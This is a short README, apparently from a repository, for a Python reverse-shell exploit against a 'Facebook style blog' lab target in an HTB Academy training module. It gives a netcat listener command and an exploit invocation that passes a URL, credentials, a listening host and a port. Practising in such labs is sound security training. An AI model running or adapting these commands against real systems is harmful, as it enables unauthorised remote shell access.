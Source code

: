 # facebook-style-blog-rce
python based revshell exploit for facebook style blog for HTB academy shell module.

# Usage: 
start listner in one terminal window
nc -lnvp 4444

on another terminal window, execute below command
python3 facebook_styled_blog_rce.py http://blog.inlanefreight.local -u <username> -p <Password> --lhost <Listening Address> --lport 4444
